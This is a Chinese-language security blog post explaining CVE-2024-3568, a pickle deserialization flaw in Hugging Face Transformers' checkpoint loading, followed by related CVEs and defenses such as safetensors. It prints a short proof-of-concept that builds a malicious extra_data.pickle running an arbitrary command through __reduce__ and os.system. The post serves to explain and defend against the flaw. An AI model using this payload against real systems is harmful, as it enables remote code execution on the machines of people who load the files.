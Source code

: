 ```yaml
---
layout:     post             
title:      大模型反序列化导致的RCE漏洞
date:       2024-12-07            
author:     sule01u                  
head-img:   img/post-bg-keybord.jpg 
catalog: true                      
tags:      
   - SRC
---
```


# 大模型反序列化导致的RCE漏洞

> 话说最近字节实习生通过编写、篡改代码等形式恶意攻击团队研究项目模型训练任务的事闹的沸沸扬扬，那气氛都到这了，我们来聊聊大模型的漏洞吧

## 引言

这可以从`CVE-2024-3568`开始聊聊， `CVE-2024-3568`是`Huggingface`的`Transformers`库中存在的一个反序列化漏洞，影响版本为`4.38.0`及之前的版本。该漏洞源于`TFPreTrainedModel`类的`load_repo_checkpoint()`函数在加载检查点时，使用了`Python`的`pickle`模块反序列化不受信任的数据，导致攻击者可以通过构造恶意的序列化有效载荷，实现任意代码执行。 

**所以呢**

展开人话就是：攻击者可以创建一个包含恶意extra_data.pickle文件的检查点目录。当受害者在模型训练过程中加载该检查点时，pickle.load()函数会反序列化extra_data.pickle文件，触发其中的恶意代码，从而在受害者的机器上执行任意指令。 

**我不信，你演示一下**

OK, 来梳理一遍漏洞出发流程 ⬇️

## CVE-2024-3568 漏洞触发流程

**功能背景：模型检查点加载**

- 在机器学习中，检查点`Checkpoint`用于保存模型训练的中间状态，以便随时恢复训练或进行推理。
- `Transformers` 库的 `TFPreTrainedModel` 类提供了 `load_repo_checkpoint()` 方法，用于从一个目录中加载检查点数据。
- 该方法使用 `Python` 的 `pickle` 模块来反序列化检查点的附加数据文件 `extra_data.pickle`。

**核心问题：直接反序列化用户提供的文件**

- `pickle` 是 `Python` 的一个模块，用于序列化和反序列化 `Python` 对象, `pickle` 的反序列化过程会执行序列化对象中的任意代码。
- 在 `load_repo_checkpoint()` 中，直接使用了 `pickle.load()` 方法来加载用户提供的 extra_data.pickle 文件。
- 如果攻击者能够控制检查点目录的内容，就可以将恶意代码嵌入到 extra_data.pickle 文件中。

**示例代码如下**

- 模拟受害者加载恶意的checkpoint

```python
from tensorflow.keras.optimizers import Adam
from transformers import TFAutoModel

# 加载一个正常的模型
model = TFAutoModel.from_pretrained('bert-base-uncased')
model.compile(optimizer=Adam(learning_rate=5e-5), loss='sparse_categorical_crossentropy', metrics=['accuracy'])

# 把参数修改为checkpoint所在的仓库的路径，注意路径要正确
model.load_repo_checkpoint('rce-checkpoint')
```

![image-20241020130557014](../img/llm/2024-12-08-135533.png)

- 我们继续跟进load_repo_checkpoint，读取了`extra_data.pickle`文件并反序列化

```python
def load_repo_checkpoint(self, repo_path_or_name):
    if getattr(self, "optimizer", None) is None:
        raise RuntimeError(
                "Checkpoint loading failed as no optimizer is attached to the model. "
                "This is most likely caused by the model not being compiled."
            )
    if os.path.isdir(repo_path_or_name):
        local_dir = repo_path_or_name
    else:
        repo_files = list_repo_files(repo_path_or_name)
        for file in ("checkpoint/weights.h5", "checkpoint/extra_data.pickle"):
            if file not in repo_files:
                raise FileNotFoundError(f"Repo {repo_path_or_name} does not contain checkpoint file {file}!")
        repo = Repository(repo_path_or_name.split("/")[-1], clone_from=repo_path_or_name)
        local_dir = repo.local_dir

    # 确保仓库中确实存在检查点
    checkpoint_dir = os.path.join(local_dir, "checkpoint")
    weights_file = os.path.join(checkpoint_dir, "weights.h5")
    if not os.path.isfile(weights_file):
        raise FileNotFoundError(f"Could not find checkpoint file weights.h5 in repo {repo_path_or_name}!")
    extra_data_file = os.path.join(checkpoint_dir, "extra_data.pickle")
    if not os.path.isfile(extra_data_file):
        raise FileNotFoundError(f"Could not find checkpoint file extra_data.pickle in repo {repo_path_or_name}!")

    # -----------重点在这里：加载模型的权重和优化器状态----------------
    self.load_weights(weights_file)
    with open(extra_data_file, "rb") as f:
        extra_data = pickle.load(f)   # ！！！pickle.load()
    self.optimizer.set_weights(extra_data["optimizer_state"])

    return {"epoch": extra_data["epoch"]}
```

现在真相大白了，那我们下一个问题是：**`extra_data.pickle`文件里面是啥？**

让我们看看`extra_data.pickle`文件是怎么生成的 ⬇️

```python
def generate_extra_data_pickle(filepath, command):
    class CommandExecute:
        def __reduce__(self):
            return os.system, (command,)

    poc = CommandExecute()
    with open(filepath, 'wb') as fp:
        pickle.dump(poc, fp)
```

在 `pickle.load(f)` 反序列化时，`__reduce__` 会被调用，`return os.system, (command,)` 会导致指定的命令 `command` 被执行。（反弹shell拿权限了 - _ -

**所以顺下来，漏洞利用过程就是：**

1. 攻击者使用上面的 `generate_extra_data_pickle`  函数生成包含恶意命令的`extra_data.pickle` 文件。
2. 将该文件放入目标仓库或本地文件路径。
3. 受害者运行` load_repo_checkpoint` 并加载恶意文件。
4. `pickle.load(f)` 执行反序列化，触发 `__reduce__`，执行其中的恶意命令。



## 扩展总结

以 transformers 库为例，已经发现了多起相关的安全漏洞：

- CVE-2024-3568：该漏洞影响 transformers 库版本低于 4.38.0，主要利用 TFAutoModel 的反序列化过程触发恶意代码执行。
- CVE-2023-7018：影响版本低于 4.36.0 的 transformers 库，tokenizer 解析存在类似的反序列化漏洞。

- CVE-2023-6730：涉及 RagRetriever.from_pretrained 方法，影响版本同样是低于 4.36.0。

这些漏洞的存在，意味着**如果攻击者能够控制模型文件内容 并且 模型文件被受害者使用了**，便可通过反序列化行为，在模型加载的瞬间就可以触发恶意代码执行。

不过大模型时代，自己从头训模型对大多数人来说是不现实的，重点可能需要放在加载预训练权重的时候怎么避免**权重文件被植入恶意代码的风险上**



## 如何防御：**safetensors** 

`safetensors` 是 `Hugging Face` 推出的一个专门存储模型权重的文件格式，主要目标是**安全性**和**高效性**。

**为什么安全：**

- **只存储张量数据**：`safetensors` 仅存储模型的张量（weights），不包含任何其他 Python 对象。

- **无需解释器解析**：文件的解析完全由 Rust 或其他安全语言实现，而非依赖 Python 的动态解释器（如 pickle）。

- **防止任意代码执行**：由于文件格式不支持代码对象，攻击者无法在文件中注入恶意代码。

**其他措施：**

- **加载前验证文件完整性**（如哈希校验或签名验证）。
- **避免加载未验证来源的模型文件**。
- **限制加载模型的运行环境**（隔离环境）